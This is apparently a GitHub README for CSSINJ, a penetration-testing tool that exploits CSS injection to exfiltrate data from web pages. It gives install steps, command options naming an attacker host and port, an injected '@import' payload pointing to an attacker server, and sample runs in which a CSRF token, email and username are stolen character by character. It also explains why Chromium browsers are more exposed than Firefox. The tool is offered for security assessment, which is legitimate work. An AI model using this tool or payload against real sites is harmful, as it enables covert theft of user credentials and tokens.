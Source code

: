 ```yaml
---

# CSSINJ  

```
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|
```

## About  

**CSSINJ** is a penetration testing tool that exploits [**CSS injection vulnerabilities**](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection) to exfiltrate sensitive information from web applications. This tool is designed for security professionals to assess the security posture of web applications by demonstrating how CSS can be used to extract data covertly.  


## Installation  

To install and set up **CSSINJ** from Source, run the following commands:  

```bash
git clone https://github.com/DonAsako/CSSinj.git
cd CSSinj
python3 -m venv venv  
source venv/bin/activate
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade build
python3 -m build
python3 -m pip install .
```

Now you’re ready to use **CSSINJ**! 🎯  

## Usage  

```bash
python3 -m cssinj [-h] -H HOSTNAME -p PORT [-e ELEMENT] [-a ATTRIBUT] [-d] [-m {recusive,font-face}] [-o OUTPUT]
```

### Options  

| Option                 | Description                                 |
|------------------------|---------------------------------------------|
| `-h, --help`           | Show help message and exit                  |
| `-H, --hostname`       | Attacker hostname or IP address             |
| `-p, --port`           | Port number of the attacker                 |
| `-e, --element`        | HTML element to extract specific data       |
| `-a, --attribut`       | Specify an element Attribute Selector for exfiltration     |
| `-d, --details`        | Show detailed logs of the exfiltration process, including extracted data |
| `-m, --method`        | Specify the type of exfiltration (recusive or font-face) |
| `-o, --output`        | File to store the exfiltrated data in JSON format |

### Example  

#### Victim's View :
```html
<h1>Welcome on my page !</h1>
<input type="text" id="username" value="admin" disabled>
<input type="email" id="email" value="admin@admin.XX" disabled>
<input type="text" class="csrf" value="MySecretAdminToken" hidden>
<img src="XXXXXXXXXXX.XX">
...
```

<style>
  @import url('//localhost:5005/start');
</style>
...
```

#### Recursive attack
###### Using a specific HTML identifier : 

```bash
~ python3 CSSINJ.py inject -H 127.0.0.1 -p 5005 -e input
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : MySecretAdminToken
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : admin@admin.XX
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : admin
```

###### Using a specific CSS attribute selector and a generic HTML identifier:

```bash
~ python3 CSSINJ.py -H 127.0.0.1 -p 5005 -e * -a src
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ [1] - The src exfiltrated from * is : XXXXXXXXXXX.XX
```

#### Font-face attack
```bash
~ python3 -m cssinj -H 127.0.0.1 -p 5005 -e h1 --method font-face
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-05-21 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-05-21 03:06:49] 🌐 Connection from 127.0.0.1
[2025-05-21 03:06:49] ⚙️ ID : 1
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 :  
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : e
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : W
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : l
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : c
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : o
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : m
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : n
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : y
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : p
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : a
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : g
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : !
```

## Browser-Specific Behavior

The success of CSS injection attacks using @import depends on the browser's handling of CSS imports:
- Chromium-based browsers (Chrome, Edge, Brave, etc.) allow recursive CSS imports and will process the injected styles, making them vulnerable to exfiltration techniques using @import.

- Firefox, however, handles @import differently:
  - Unlike Chromium-based browsers, Firefox processes all @import rules before applying any styles.
  - As a result, the attack fails because the browser never processes the CSS selectors, preventing data exfiltration.
  - This behavior causes an infinite loop where the browser keeps waiting for a CSS update that never happens.

This difference in behavior makes Chromium-based browsers more susceptible to CSS injection exfiltration, while Firefox provides better protection against such attacks.

## Todo
- General : 
  - [ ] Add error Handler
    - [ ] File error Handler
  - [ ] Add test
  - [ ] Edit Terminal

- Injection : 
  - [x] Add injection parameters
  - [ ] Add an option to save results to a file
  - [ ] Allow multiple CSS selectors for simultaneous extraction
  - [ ] Add g all of the page
  - [x] Refract cssinjector.py
  - [ ] Add timeout


## Disclaimer  

This tool is intended **only for ethical hacking and security research**. **Unauthorized use on systems without explicit permission is illegal**. The developer **is not responsible** for any misuse of this tool.  

## Author  

**CSSINJ** was developed by **Asako**.
